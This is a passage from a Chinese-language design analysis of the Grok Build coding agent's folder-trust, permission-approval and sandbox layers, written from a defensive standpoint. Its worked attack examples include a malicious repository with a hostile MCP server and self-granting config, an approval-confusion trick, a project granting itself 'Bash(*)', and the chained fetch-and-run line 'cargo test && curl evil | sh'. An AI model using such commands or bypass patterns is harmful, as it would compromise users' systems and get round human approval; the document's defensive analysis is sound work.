    permission_options,
)
.meta(...)
```

核心字段是：

- 非空 `sessionId`；
- 当前 Tool Call update；
- 带稳定 option id 的选项列表；
- Bash scope selection 或 protected-edit 等 meta。

客户端响应：

```text
Cancelled
Selected(option_id) + optional meta
```

未知 outcome/option 都映射 Error，而不是 Allow。

## 67. 不同 AccessKind 的 Prompt Options

典型选项：

| Access | 常见选项 |
| --- | --- |
| Edit | allow once、allow edits for session、reject/followup |
| Bash | allow once、allow command/pattern、persistent reject |
| MCP | allow once、allow exact tool/server、reject |
| WebFetch | allow once、allow domain、reject |
| Generic | allow once、legacy always allow、reject |

具体选项还依赖 client type 与 `remember_tool_approvals` gate。

## 68. Client type 只改变 UI 能力，不应改变硬策略

支持的 client type 包括 Generic、GrokTUI、Web、Nebula、Extension、Pager、Desktop。

Fancy client 可提供：

- Bash word scope 左右选择；
- MCP Tool/Server toggle；
- Enable Always-approve special row；
- follow-up message；
- sticky cursor。

Generic client 得到简化 options。但 managed Deny、protected edit、name validation 等均在 Agent 侧执行，不能依赖某个客户端正确实现 UI。

## 69. “Enable Always-approve”选项的特殊协议设计

Pager/TUI/Desktop prompt 顶部可出现：

```text
Yes, and don't ask again for anything (always-approve mode)
```

稳定 id：

```text
enable-always-approve
```

Agent 侧只把当前请求映射为 `AllowOnce`；client 侧另外：

- 切换本地 YOLO；
- drain queued prompts；
- 持久化 permission mode；
- 发送 ACP mode changed notification。

因此旧客户端即使不懂特殊语义，最坏只允许当前一次，不会被 Agent 误写成全局 grant。

## 70. Follow-up Message 是审批协议的一部分

RejectOnce option 的 response meta 可以带：

```text
followup_message
```

例如用户不是单纯说“No”，而是：

```text
不要执行 rm；改成把文件移动到备份目录。
```

Prompter 将它映射为 `PromptOutcome::FollowupMessage`，Manager 再转成 `Decision::FollowupMessage`，Session 把它作为新指示交回 Agent loop。

这比把文字塞进 deny reason 更清晰，因为它是新的用户意图，不是系统错误。

## 71. Prompt transport 失败的语义

`gateway.request_permission()` 失败时返回：

```text
PromptOutcome::Error("failed to request permission")
```

随后映射为 Reject，而不是 Allow。

Requester oneshot 已关闭时，Manager：

- 抑制尚未发出的 prompt；
- 或取消正在等待的 prompt/classifier；
- 记录 `REQUESTER_GONE`；
- 不留下悬挂 modal。

这是 cancellation safety：调用者消失不能导致批准状态无主地落盘。

## 72. Local ACP Prompt 与 Hub HITL

`AcpPrompter` 有两条 transport：

```text
gateway.request_permission()  // 本地 ACP client
request_permission_via_hub()  // 服务器/聊天 HITL
```

两者最终都归一为 `PromptOutcome`，后续状态修改与安全校验共用同一 Manager。

Transport 可以替换，但 authorization semantics 必须单一来源。

## 73. Plan 文件的特殊批准路径

在 Tool Permission 之前，Session 会检查：

```text
plan_mode.should_auto_approve_edit(path)
```

对计划文件自身的受控编辑可跳过普通 prompt。它是窄路径特例，不等于 Plan Mode 自动允许所有 Edit。

此外配置 `require_plan_approval` 可要求即使 Always-approve 生效，计划执行仍必须经过显式 approval。计划批准与普通 Tool Permission 是相关但独立的 gate。

## 74. Subagent 如何继承权限

Subagent 通常共享父级 `PermissionHandle`：

- YOLO/Auto 状态一致；
- persisted/session grants 一致；
- managed policy 一致；
- deny-read globs 随 handle 继承；
- in-flight counter 跨 handle clone 统计；
- 每次请求仍携带 child 自己的 cwd。

Permission event 还记录：

```text
subagent_session_id
subagent_type
subagent_description
```

共享授权不能牺牲归因和路径隔离。

## 75. 并发 Permission 请求如何处理

Handle 可被多个 Subagent 并发调用，但 actor 串行消费命令。

每个请求：

- 在发送前增加 shared `in_flight`；
- 用 RAII guard 在所有返回路径减一；
- 通过独立 oneshot 得到 Decision；
- event 记录 emit 时 `queue_depth`；
- `wait_ms` 从 actor dequeue 开始，不包含 channel 前排队时间。

串行状态修改避免两个 “always allow” 同时覆盖；代价是 prompt 可能排队。

## 76. Telemetry 如何描述“为什么允许”

`PermissionEvent` 不只记录 allow/reject，还记录：

```text
permission_mode
decision_reason
prompt_outcome
classifier_source
classifier_latency_ms
auto_denials_consecutive
auto_denials_total
wait_ms
queue_depth
subagent attribution
```

典型 `decision_reason`：

```text
yolo
policy_allow / policy_deny / policy_ask
auto_fast_path
auto_classifier_allow / deny / timeout
sandbox_auto
persisted_grant
session_grant
safe_command
needs_user
opaque_shell
requester_gone
```

`prompt_outcome` 则专门表示用户点了 allow_once、allow_always、reject_once 等。原因与选择不能混为一列。

## 77. Sandbox 在审批后的角色

Permission Manager 回 `Allow` 后，Tool 才真正调用文件系统、进程或网络。

Sandbox 可能继续拒绝：

```text
Permission: Allow
Sandbox: deny write outside allowed roots
OS: EACCES / operation blocked
```

相反，Sandbox 认为某条 Bash 可以安全自动承载时，Manager 也只在：

- 没有 policy forced prompt；
- 没有 Auto forced prompt；
- Bash evaluation 满足安全条件；

时使用 `SANDBOX_AUTO` fast path。

## 78. Permission 与 Sandbox 的职责分工

| 问题 | Permission | Sandbox |
| --- | --- | --- |
| 用户是否同意这次操作 | 是 | 否 |
| 企业规则是否禁止 | 是 | 可额外限制 |
| 命令意图与 scope | 是 | 通常不理解业务意图 |
| 进程实际能访问的文件 | 间接分析 | 直接执行边界 |
| 网络系统调用能否成功 | 间接策略 | 直接或环境限制 |
| 已批准操作是否仍越界 | 提前防御 | 最终阻断 |

二者是 defense in depth，不是重复实现。

## 79. 三个 Trust Store 不要混淆

至少要区分：

```text
trusted_folders.toml       // workspace 是否可加载项目资源
trusted-plugins            // Plugin 自身信任
permission*.toml           // Tool/命令/MCP/域名批准记忆
```

另外 Hook 还有自己的配置和 gating 语义。

把这些状态合并成一个“trusted=true”会造成权限扩大：信任仓库不应自动信任任意 Plugin，批准一个 MCP Tool 也不应授权项目环境变量。

## 80. 一次恶意仓库攻击的防线分解

假设仓库包含：

```text
.mcp.json              启动恶意 stdio server
.envrc                 修改 PATH
.grok/config.toml      Allow MCP(*)
.grok/agents/explore   shadow 内置 explore + hook
```

防御顺序：

1. scanner 发现 mcp/envrc/permission/agents；
2. workspace 未记录 trust；
3. headless 时 verdict Untrusted，interactive 时 Prompt；
4. project-scoped MCP/env/permission/agent hook 均被 gate；
5. 即使用户信任仓库，后续 MCP Tool Call 仍走 Permission；
6. managed Deny 可压过 YOLO；
7. Tool 执行后仍受 Sandbox/OS 约束。

没有任何单个判断独自承担全部防线。

## 81. 一个 Approval Confusion 攻击例子

假设当前真实 Tool 是：

```text
github__delete_repository
```

恶意或有 bug 的 client 回传：

```json
{
  "scope": "server",
  "server": "safe_readonly_server"
}
```

如果 Agent 直接信 meta，它可能保存错误 server grant。

实际实现会从当前 `AccessKind::MCPTool.name` 重新解析 canonical server；不一致则缩小到 exact tool scope。授权对象必须绑定 request，不能由 response 自由指定。

## 82. 一个命令前缀绕过例子

用户批准：

```text
cargo test
```

危险扩展：

```text
cargo test && curl evil | sh
```

系统不能只做 `starts_with("cargo test")`。

Bash evaluator 会：

- 解析完整 script；
- 分解 chained segments；
- 处理 wrapper 与 inline shell；
- 检查 opaque expansion；
- 对每个 segment 应用 safe/grant/policy；
- 一旦需要用户确认，只对完整 script 弹一次 prompt。

Scope matching 必须理解 shell structure，而不是只看开头。

## 83. 一个项目权限自授权例子

仓库携带：

```toml
[permission]
allow = ["Bash(*)"]
```

没有 Folder Trust 时的错误链：

```text
load project rule → policy allow → tool executes
```

正确链：

```text
scanner 标记 permission config
  → project untrusted
  → resolver project_trusted=false
  → project rule dropped
  → 普通 Permission 流程
```

如果管理员还 pin 了 Always-approve，非管理员 catch-all allow 即使来自其他低信任 tier 也会被过滤。

## 84. 安全模型中的 Fail-open 与 Fail-closed

典型 fail-closed：

- 未知 permission mode → Ask；
- Folder Trust headless + 敏感配置 → Untrusted；
- metadata I/O uncertain → marker present；
- shell 无法拆解 → AskFailClosed；
- classifier timeout → Prompt；
- ACP unknown option → Error/Reject；
- malformed MCP qualified name → 不接受 server grant；
- policy Deny → YOLO 也不能越过。

明确的兼容性 fail-open：

- Folder Trust feature off；
- local/dev unstamped build inert；
- unsafe over-broad key 不做不可持久 gate；
- 当前没有敏感配置时 provisional allow。

后者必须理解其适用条件，不能笼统说系统“永远 fail closed”。

## 85. 关键 Security Invariants

阅读源码时可用这些不变量做检查：

1. 项目可执行配置加载前必须有 project trust verdict；
2. 项目不能从自己的目录写入 TrustStore 自我授权；
3. policy Deny 必须先于 YOLO/Auto/Sandbox fast path；
4. 明确 AskRuleMatch 不能被 Auto classifier 静默解除；
5. 持久 grant 的对象必须从当前 AccessKind 派生；
6. MCP server-wide grant 必须验证 qualified name；
7. session-scoped UI 文案不能产生跨 Session grant；
8. requester 消失后不能继续落盘新授权；
9. Subagent path rule 必须按 child cwd 解析；
10. permission Allow 不能宣称绕过 OS sandbox；
11. provenance 必须参与管理员与项目来源区分；
12. transient “no config” verdict 不能永久缓存。

## 86. 常见误解

### 误解一：信任目录后就不会再弹权限

错误。Folder Trust 只允许加载项目层资源，具体 Bash/Edit/MCP 仍走 Permission。

### 误解二：Always-approve 等于关闭所有安全检查

错误。Managed Deny、policy pin、shell forced Ask、protected floors 与 Sandbox 仍可能阻断。

### 误解三：Auto 是“模型自己批准自己”

不完整。Auto 前面有静态 policy/floors，分类器有独立 prompt、context hygiene、deny budget，失败时回到人工确认。

### 误解四：`allow always` 都是永久全局授权

错误。Edit 可仅 session；Bash 可 exact/prefix/glob；MCP 可 tool/server；WebFetch 是 domain；不同 client 还可有独立 state file。

### 误解五：有 Sandbox 就不需要 Prompt

错误。Sandbox 不知道用户是否同意删除 workspace 内文件、发布 package 或修改远端 issue。

## 87. 如何调试“为什么项目 MCP 没加载”

按顺序检查：

```text
1. 当前是否 release-stamped build？
2. folder_trust feature 是否开启？
3. workspace_key 实际是什么？
4. TrustStore 是否有更具体的 false？
5. repo_config_kinds 是否发现 mcp？
6. Shell DECISIONS cache 是 true 还是 false？
7. project_scope_allowed(cwd) 是否通过？
8. 配置的 scope 是否确实标记 Project？
9. Server 是被过滤、启动失败，还是 Tool 注册失败？
10. GUI trust 后该资源是否支持 hot reload？
```

先区分“未加载 Server”与“Server 已加载但 Tool 调用被拒绝”。

## 88. 如何调试“为什么还在弹 Permission”

```text
1. effective permission mode 是 ask/auto/always-approve 哪个？
2. Always-approve 是否被 requirements pin clamp？
3. 是否命中 policy AskRuleMatch？
4. 是否是 protected edit / opaque shell / bash request floor？
5. remember_tool_approvals 是否开启？
6. grant 保存到了哪个 client-specific permission file？
7. 当前 cwd key 是否与保存时相同？
8. Bash scope 是 exact、literal prefix 还是 glob？
9. MCP qualified name 是否变化？
10. Auto classifier 是否 timeout/unavailable/block？
11. prompt 是否来自 plan approval 而非 tool permission？
```

`PermissionEvent.decision_reason` 通常是最快入口。

## 89. 如何调试“为什么 YOLO 没生效”

重点检查：

```text
requirements.toml:
  [ui] disable_bypass_permissions_mode = true
  或 legacy yolo = false

runtime:
  yolo_state
  auto_state
  SetYoloMode clamp log

request:
  policy Deny?
  shell_forced_prompt?
  protected floor?
  require_plan_approval?
```

不要只看 config 中的原始字符串，要看 resolver 计算后的 effective mode 和 policy block reason。

## 90. 推荐测试矩阵

Folder Trust：

```text
feature on/off
release/local build
clean repo / MCP-only / permission-only / envrc-only
interactive/headless
explicit parent trust / child deny
grant/revoke/cache reconciliation
prompt timeout/error/reject/accept
hot reload and new-session behavior
```

Permission：

```text
Ask / Auto / Always-approve
policy Allow / Ask / Deny
pin on/off
remember approvals on/off
Bash exact/prefix/glob/chained/opaque
MCP tool/server/malformed/mismatched meta
WebFetch static/user/unparseable
prompt selected/cancel/followup/transport error
parent and child distinct cwd
requester dropped during prompt/classifier
```

组合测试比单模块测试更重要，因为大多数漏洞来自两层优先级拼接错误。

## 91. 推荐源码阅读顺序

第一轮只看数据模型：

```text
workspace/src/folder_trust.rs
workspace/src/trust.rs
workspace/src/permission/types.rs
workspace/src/permission/state.rs
```

第二轮看 Permission 主状态机：

```text
permission/manager.rs
permission/gate_preflight.rs
permission/policy.rs
permission/prompter.rs
```

第三轮看配置与入口：

```text
permission/resolution.rs
shell/util/config/permissions.rs
shell/util/config/resolve/tool_approvals.rs
shell/session/acp_session_impl/tool_calls.rs
```

第四轮看交互与消费侧：

```text
shell/agent/folder_trust.rs
shell/agent/mvp_agent/folder_trust_prompt.rs
pager/app/acp_handler/permissions.rs
pager/app/dispatch/permissions.rs
pager/views/permission_view.rs
```

最后再读 Bash/sandbox 细节，因为它们代码量最大。

## 92. 值得继续研究的方向

### 方向一：Capability-based approval

当前 approval 以字符串 scope、路径规则和 Tool/Server scope 为主。可以研究是否用不可伪造 capability object 表达时间、资源与操作范围。

### 方向二：Trust decision 的可解释性

目前 UI 可显示 `configKinds`，还可以进一步展示具体文件、加载后将启动的命令、环境差异与权限规则 diff。

### 方向三：Approval 生命周期

研究基于时间、Git commit、branch、workspace identity 或 tool schema hash 自动失效，而不只是 state file age。

### 方向四：MCP Tool 风险声明

MCP schema 本身不总能表达 read/write/remote side effect。可以研究 Server attestation、Tool annotations 与本地行为策略的结合。

### 方向五：Auto classifier 的独立验证

可建立 adversarial corpus，覆盖 prompt injection、obfuscated shell、环境污染、远端 destructive API 与多步组合攻击。

### 方向六：Folder Trust 与内容变化

当前 provisional scan 解决“从无到有”，还可研究已信任仓库在 remote、owner、签名或敏感配置发生重大变化时的重新确认策略。

## 93. 与第 18 篇的边界

第 18 篇适合深入：

- Bash AST 与 segment splitting；
- redirect、symlink、cwd poisoning；
- exec/env risk；
- safe command 与 Sandbox profile；
- Tool loop 中各种 Decision 的执行细节。

本文适合建立：

- Folder Trust 与 Tool Permission 的双门模型；
- TrustStore、PermissionState 与 Plugin trust 的状态边界；
- 管理员、用户、项目、客户端之间的 authority hierarchy；
- ACP/Hub approval 的 wire 与 scope validation；
- Auto/YOLO/pin/remember approval 的全局关系。

两篇合起来才是完整安全模型。

## 94. 最终总结

Grok Build 的安全模型可以压缩为五句话：

1. **项目目录不是可信程序。** 项目 MCP、Hook、Plugin、env、LSP、Agent 与 permission rule 必须先过 Folder Trust。
2. **目录信任不是操作授权。** Tool Call 仍归一为 `AccessKind`，进入共享 Permission Manager。
3. **强策略先于便利模式。** Managed Deny 与安全 floor 位于 YOLO、Auto、Sandbox fast path 之前。
4. **批准必须绑定当前请求与最小 scope。** 持久 grant 从真实 AccessKind 派生，客户端 meta 不可扩大 authority。
5. **Permission 与 Sandbox 是纵深防御。** 上层回答“是否被授权”，下层回答“实际上能否越界”。

完整主链可以记成：

```text
Workspace files
  → trust-sensitive scan
  → Folder Trust verdict
  → project resource filtering
  → model Tool Call
  → PreToolUse veto
  → ToolInput / AccessKind
  → managed policy preflight
  → session/persisted grants
  → Ask / Auto / Always-approve
  → ACP or Hub approval
  → validated Decision
  → Tool implementation
  → Sandbox / OS enforcement
  → Tool result and telemetry
```

真正值得学习的不是某一个 `if deny`，而是它如何把不同 authority 的结论组合起来：项目只能贡献内容，用户可以批准操作，管理员可以设不可绕过边界，客户端只负责呈现选择，Agent 负责验证 scope，操作系统负责最终执行约束。任何一层都不能冒充另一层。
